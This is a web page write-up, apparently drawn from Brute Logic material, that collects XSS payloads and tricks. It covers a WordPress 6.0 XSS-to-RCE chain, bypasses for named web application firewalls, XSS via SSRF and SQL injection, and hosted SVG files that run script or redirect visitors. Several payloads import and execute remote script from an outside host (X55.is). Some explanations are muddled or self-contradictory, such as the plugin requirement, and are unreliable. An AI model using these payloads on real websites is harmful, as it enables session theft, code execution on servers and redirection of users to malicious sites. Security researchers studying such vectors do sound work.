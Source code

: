 <h1>Brute Logic Tricks: Advanced Techniques in Web Security Exploitation</h1><br />
The following write-up highlights advanced web exploitation techniques focusing on XSS (Cross-Site Scripting) vulnerabilities, WAF (Web Application Firewall) bypasses, and SSRF (Server-Side Request Forgery) scenarios. These methods are tailored for skilled penetration testers and security researchers, offering a deeper understanding of how to trick filters and evade detection in web applications.
<br />
<h3>1. Escaping Filters Using Byte Bundles</h3>
<b>Concept:</b> To bypass filters that escape specific characters such as single quotes (') when performing web attacks, particularly XSS, one can leverage bytes in the range of %A1 to %FE. These byte ranges can be combined with a single quote to outsmart the filter mechanism.
<br />
<b>Explanation:</b> In web security, many systems sanitize or escape certain characters like %27 (which is the ASCII encoding for ') to prevent malicious injections. However, some filtering mechanisms do not account for all possible byte combinations. By using a byte from %A1 to %FE, you can evade certain character escape sequences and trick the filter into allowing the injection. This is particularly useful when performing brute-force logic attacks or exploring other injection techniques.
<br />
<h3>2. WP 6.0 XSS to RCE Proof of Concept (PoC)</h3>
<b>Concept:</b> In WordPress 6.0, a known exploit allows a user to escalate an XSS (Cross-Site Scripting) vulnerability to RCE (Remote Code Execution). The method involves creating a file (brute.txt) in the /wp-content/plugins folder.

<b>Example:</b>
import('//X55.is/wp')<br />
<b>Requirements:</b><br />

1. An admin user must be logged in with default write permissions.<br >
2. The "Hello Dolly" plugin needs to be activated (or left deactivated as it's a default plugin in WordPress).<br >
3. Explanation: XSS is a client-side code injection attack, but in this case, it can escalate into a server-side RCE if the admin user is logged in. The trick lies in leveraging the default permissions in WordPress installations to inject a malicious file. This kind of exploitation showcases the danger of poorly protected administrative interfaces in web applications.
<br >
<h3>3. Breaking Out of String Values with Quotes</h3><br >
<b>Concept:</b> To escape from any string value where user input is embedded, an injection of single or double quotes is essential unless there are two injection points.<br >

<b>Example:</b>
/alert(1)//\<br >
<b>Explanation:</b> When user inputs are inserted into strings without proper sanitization, attackers can use single or double quotes to close the string and execute arbitrary code. However, if you have two injection points (such as opening and closing quotes around your payload), breaking out of a single point might not be necessary. The goal here is to manipulate the syntax of the code by closing strings prematurely, enabling the injection of additional malicious code.<br >

<h3>4. Anchors as XSS Vectors</h3>
<b>Concept:</b> HTML <a> tags (anchors) are powerful XSS vectors. By exploiting their attributes, one can trigger XSS payloads automatically.<br >

<b>Example 1:</b>
&lt;a href=//X55.is autofocus onfocus=import(href)&gt;<br >
<b>Explanation:</b> Here, the combination of the autofocus and onfocus attributes is used to trigger the import() function when the link is clicked or the element receives focus. This is an advanced method for exploiting XSS, taking advantage of HTML5 attributes. The anchor tag makes it especially dangerous since it is a common element on web pages and can be used to load external scripts without the need for parentheses.<br >

<h3>5. Misplacing Payloads and the "&lt" Symbol</h3>
<b>Concept:</b> If a payload and the "&lt" symbol are misplaced in HTML code, moving elements out of their usual place can still allow the execution of malicious code.<br >

<b>Example:</b>
&lt;Img Src="//X55.is/&gt; "OnError=import(src)//<br >
<b>Explanation:</b> In this example, the payload bypasses filters by misplacing the > symbol. This is a clever trick that can allow a malicious script to run even if the filter expects the payload to be in a specific position. The OnError event is used to trigger the payload when the image fails to load, effectively executing the malicious code.<br >

<h3>6. Securi WAF Bypass</h3>
<b>Concept:</b> Securi WAF (Web Application Firewall) can be bypassed using a crafted HTML form, as shown below.<br >

<b>Example:</b>

data:text/html,&lt;form action=https://brutelogic.com.br/xss-waf.php method=post&gt;&lt<br >
;input type=hidden name=a value="<K Contenteditable Autofocus OnFocusIn= [1].map(alert)>"&gt<br >
&lt;input type=submit value=XSS&gt;&lt/form&gt;<br >
<b>Explanation:</b> This example uses a hidden input field with a crafted payload to bypass the Securi WAF. The Contenteditable attribute allows for user interaction, while Autofocus and OnFocusIn trigger the attack when the form is submitted. Web Application Firewalls typically inspect requests for known patterns, but this creative form submission method can evade such detection mechanisms.
<br >
<h3>7. Impera WAF Bypass</h3>
<b>Concept:</b> By crafting a vector inside an SVG tag, it’s possible to bypass the Impera WAF.<br >
<b>Example:</b>
&lt;svg&gt;&lt;set onbegin=d=document,b='`',d['loca'+'tion']='javascript&colon;aler'+'t'+b+domain+b&gt;
<b></b>Explanation:</b> Here, the vector uses an SVG element with a set attribute that starts executing JavaScript code when the SVG is rendered. The code concatenates parts of the location object and JavaScript's alert() function to trigger an alert. This bypasses the Impera WAF, which likely doesn’t properly inspect or decode these complex constructs inside SVG files.

<h3>8. XSS Vulnerability from SSRF or SQLi Scenarios</h3>
<b>Concept:</b> Cross-Site Scripting (XSS) can emerge from SSRF (Server-Side Request Forgery) or SQL injection scenarios if improperly handled.<br >

<b>SSRF (curl-based) Example:</b>
?url=https://blablablabla-site.com/poc.svg
<b>SSRF (PHP file_get_contents) Example:</b>
?url=data:,<svg/onload=alert(1)>
<b>SQLi (error-based) Example:</b>
?id='<svg/onload=alert(1)><br >
<b>Explanation:</b> In these cases, XSS occurs because input parameters are not sanitized, allowing attackers to inject malicious scripts into server responses. SSRF exploits can be leveraged by providing URLs that return SVG files containing scripts, while SQLi can inject scripts directly into database queries, resulting in the execution of malicious code when the error message or query result is rendered.
<br >
<h3>9. Brute SVG Collection</h3>
Brute Logic offers a collection of SVG files, each serving different purposes in exploiting web vulnerabilities.<br >

XSS (no image)<br >

URL: https://brutelogic.com.br/poc.svg<br >
XSS (valid image)<br >

URL: https://brutelogic.com.br/brute.svg<br >
Redirect (default)<br >

URL: https://brutelogic.com.br/redir.svg<br >
Redirect (custom)<br >

URL: https://brutelogic.com.br/redir.svg?url=//X55.is<br >
Redirect (custom + warning)<br >

URL: https://brutelogic.com.br/redir.svg?url=//X55.is&w=1<br >
<b>Explanation:</b> This collection provides pre-built SVG files that trigger XSS or redirect behavior when accessed. The SVG format is commonly used for image rendering, but attackers can insert scripts into these files, making them a vector for XSS attacks. The redirect files can be customized to send users to any malicious site, with optional warning messages to obscure the true intent of the redirect.
<br >
<h3>Conclusion</h3>
The above techniques represent advanced strategies used by security researchers to test, bypass, and exploit web vulnerabilities. These methods emphasize the need for rigorous input validation, secure configuration, and proper use of web application firewalls to protect against common attack vectors like XSS, SSRF, and SQLi. As web security continues to evolve, so do the methods used by attackers, making it crucial to stay informed about these cutting-edge techniques.<br >

